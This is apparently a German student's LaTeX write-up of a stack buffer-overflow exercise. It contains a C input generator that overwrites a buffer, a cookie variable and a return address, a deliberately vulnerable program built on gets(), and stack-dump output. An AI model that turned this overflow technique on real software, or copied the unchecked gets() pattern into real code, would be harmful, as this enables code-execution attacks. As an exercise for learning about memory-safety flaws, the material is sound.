 \documentclass[10pt,a4paper]{article}
\begin{document}
Input Gen compilieren wir mit:
\begin{verbatim}
gcc -o inputGet inputGen.c
\end{verbatim}

\begin{verbatim}
inputGen.c
---------------------------------
#include <stdio.h>

int main() {
   unsigned int i;
   //fill the char buffer
   for(i = 0; i < 108; i++){
      printf("a");
   }
   //print the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 39; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump
   printf("%c%c%c%c", (0x4005c5 & 0xFF000000) >> 24, 0x4005c5 & 0xFF,
            (0x4005c5 & 0xFF00) >> 8, (0x4005c5 & 0xFF0000) >> 16);

   return 0;
}
\end{verbatim}

Durch Modifikation des gegebenen Programms lassen wir uns erstmal den Speicher ausgaben, der um das Array und die Variable herum liegen. Das Programm sieht nun so aus:
\begin{verbatim}
#include <stdio.h>

int main() {
   int cookie;
   char buf[99];

   printf("buf: %08x cookie: %08x\n", &buf, &cookie);
   for(cookie = 108; cookie < 180; cookie += 4){
      printf("pos: %08x val: %08x vali: %i\n", buf + cookie, *((int*)(buf + cookie)),
               *((int*)(buf + cookie)));
   }
   gets(buf);

   if (cookie == 0x000a0d00)
      printf("glückwunsch bernd!\n");
}
\end{verbatim}

Dadurch bekommen wir folgende Ausgabe:
\begin{verbatim}
$ ./b
buf: ffffe7d0 cookie: ffffe83c
pos: ffffe83c val: 0000006c vali: 108
pos: ffffe840 val: 00000000 vali: 0
pos: ffffe844 val: 00000000 vali: 0
pos: ffffe848 val: f7a54b05 vali: -140162299
pos: ffffe84c val: 00007fff vali: 32767
pos: ffffe850 val: 00000000 vali: 0
pos: ffffe854 val: 00000000 vali: 0
pos: ffffe858 val: ffffe928 vali: -5848
pos: ffffe85c val: 00007fff vali: 32767
pos: ffffe860 val: 00000000 vali: 0
pos: ffffe864 val: 00000001 vali: 1
pos: ffffe868 val: 0040058d vali: 4195725
pos: ffffe86c val: 00000000 vali: 0
pos: ffffe870 val: 00000000 vali: 0
pos: ffffe874 val: 00000000 vali: 0
pos: ffffe878 val: 559b8a02 vali: 1436256770
pos: ffffe87c val: 3fc6c3b5 vali: 1069990837
pos: ffffe880 val: 004004a0 vali: 4195488
\end{verbatim}
\end{document}

